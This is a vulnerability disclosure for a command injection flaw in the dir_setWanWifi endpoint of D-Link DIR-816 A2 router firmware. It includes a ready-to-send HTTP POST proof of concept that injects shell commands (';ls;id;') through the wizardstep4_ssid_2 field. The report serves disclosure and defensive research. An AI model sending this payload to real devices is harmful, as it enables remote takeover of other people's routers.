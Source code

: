 # Information



**Vendor of the products:**   D-Link

**Vendor's website:** [D-Link | Welcome](https://www.dlink.com.cn/)

**Reported by:** Chen Bo ([2804894416@qq.com](mailto:2804894416@qq.com))

**Affected products:** DIR-816 A2

**Affected firmware version:** <= v1.10CNB05

**Firmware download address:** https://www.dlink.com.cn/techsupport/download.ashx?file=6495



# Overview

The router D-Link DIR-816 A2 1.10B05 has a serious command injection vulnerability. The purpose of command execution can be achieved through the `/goform/dir_setWanWifi` route, and even serious consequences can be caused. Attackers can complete remote arbitrary command execution through key fields such as `connecttype`, `wizardstep4_ssid_2` and other control fields

# Vulnerability details

The handler function `dir_setWanWifi ` is registered in the `sub_42DA54` function.

![image-20250408223516093](2/image-20250408223516093.png)

Branch judgment is performed here

![image-20250408174437436](2/image-20250408174437436.png)

Enter the branch again through judgment

![image-20250408174653268](2/image-20250408174653268.png)

The following command injection is performed

![image-20250408174613988](2/image-20250408174613988.png)

# POC

```
POST /goform/dir_setWanWifi HTTP/1.1
Host: 192.168.102.145
Content-Length: 85
Cache-Control: max-age=0
Origin: http://192.168.102.145
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.102.145/d_wan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: curShow=
Connection: close

connecttype=DHCP&hostname=127.0.0.1&statuscheckpppoeuser=0&wizardstep4_ssid_2=;ls;id;
```

![image-20250408174800105](2/image-20250408174800105.png)

